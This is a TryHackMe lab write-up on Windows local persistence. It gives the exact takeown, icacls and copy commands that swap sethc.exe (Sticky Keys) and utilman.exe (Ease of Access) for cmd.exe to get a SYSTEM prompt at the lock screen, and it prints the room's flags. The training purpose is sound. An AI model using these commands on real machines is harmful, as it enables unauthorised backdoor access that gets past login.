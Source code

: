 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# Stickey Keys
1. Started this room's machine
2. `takeown /f c:\Windows\System32\sethc.exe` from the compromised Windows machine to take ownership, which we're doing as Administrator, of the **sethc.exe** (Secure Attention Sequence Even Handler Controller) program, which is associated with the Stickey Keys feature in Windows that you can activate by pressing the **SHIFT** key on a keyboard five times if it's active
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\sethc.exe /grant Administrator:F` from the compromised Windows machine to grant the Administrator full control to the **sethc.exe** program, which allowed us to modify the executable binary that will execute after activating Sticky Keys by pressing the **SHIFT** key on our keyboard five times
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe` from the compromised Windows machine to replace the **sethc.exe** file with the **cmd.exe** file so that when the user activates Sticky Keys, it'll execute the **cmd.exe** program instead, which will launch the compromised Windows machine's command prompt that we'll use to execute the **flag14.exe** program 
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. After successfully executing the preceding commands, we'll lock our screen and then active Sticky Keys by pressing **SHIFT** five times on our keyboard, which ended up opening a command prompt with SYSTEM privileges

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.3.png) 

6. `C:\flags\flag14.exe` from our open command promp on the compromised Windows machine's lockscreen to execute the **flag14.exe** program, which ended up displaying the flag for this task onto our terminal 
```PowerShell
C:\Windows\system32>C:\flags\flag14.exe
THM{BREAKING_THROUGH_LOGIN}
```


**TASK COMPLETED!**

# Utilman
1. Started this room's machine
2. `takeown /f c:\Windows\System32\utilman.exe` from the compromised Windows machine to take ownership of, which we're doing as Administrator, the **utilman.exe** (Utility Manager) program, which is responsible for managing various accessibility features and utilities in Windows, such as Windows' **Ease of Access** options during the lockscreen
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\utilman.exe /grant Administrator:F` from the compromised Windows machine to grant the Administrator full control to the **utilman.exe** program, which allowed us to modify the executable binary that will execute after acessing the **Ease of Access** options during the compromised Windows machine's lockscreen
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe` from the compromised Windows machine to replace the **utilman.exe** file with the **cmd.exe** file so that a command prompt will open up when pressing on the **Ease of Access** option at the compromised machine's lockscreen instead of the **utilman** being executed 
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. After successfully executing the previous commands, we locked our screen and then click on the "**Ease of Access**" button, which ended up opening up a command prompt with SYSTEM privileges that verified by executing the`whoami` command, which was the case

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Utilman%20pt2.png)

7. `C:\flags\flag15.exe` from our open command promp on the compromised Windows machine's lockscreen to execute the **flag15.exe** program, which ended up displaying the flag for this task onto our terminal 
```PowerShell
C:\Windows\system32>C:\flags\flag15.exe
THM{THE_LOGIN_SCREEN_IS_MERELY_JUST_A_SUGGESTION}
```


**TASK COMPLETED!**
